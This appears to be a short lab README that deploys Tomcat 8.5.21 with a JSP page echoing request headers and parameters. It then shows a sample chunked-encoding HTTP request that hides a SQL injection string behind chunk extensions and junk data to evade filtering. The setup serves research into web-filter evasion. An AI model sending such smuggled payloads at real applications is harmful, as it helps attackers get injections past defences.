 # MiddlewareEnv

## 0x01 tomcat 8.5.21

### 环境部署

```
docker pull tomcat:8.5.21
```

### jsp源码

```jsp
<%@ page import="java.io.*,java.util.*" contentType="text/html" %>
<%
out.println("charseki.chen@dbappsecurity.com.cn\n\n");
out.println("--------------------- Headers -----------------\n");
Enumeration headerNames = request.getHeaderNames();
while(headerNames.hasMoreElements()) {
    String paramName = (String)headerNames.nextElement();
    String paramValue = request.getHeader(paramName);
    out.println("["+paramName+"]"+" => "+paramValue);
}
out.println("\n");
out.println("--------------------- Request -----------------\n");
Enumeration paramsNames = request.getParameterNames();
while(paramsNames.hasMoreElements()) {
    String paramsName = (String)paramsNames.nextElement();
    String paramsValue = request.getParameter(paramsName);
    out.println("["+paramsName+"]"+" => "+paramsValue);}
%>
```

### 请求地址

http://test.env.com:1111/charseki.jsp

### 请求示例

```
POST /charseki.jsp HTTP/1.0
Host: test.env.com:1111
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Transfer-Encoding: chunked

2;&a=1 union select 1,2,3,4&
na
3;FyWNtf5IdLw
me=
2;s46FzpfpSVIZMW
11
2;MvNiVgkdUiltG6ABB4
11
0

```
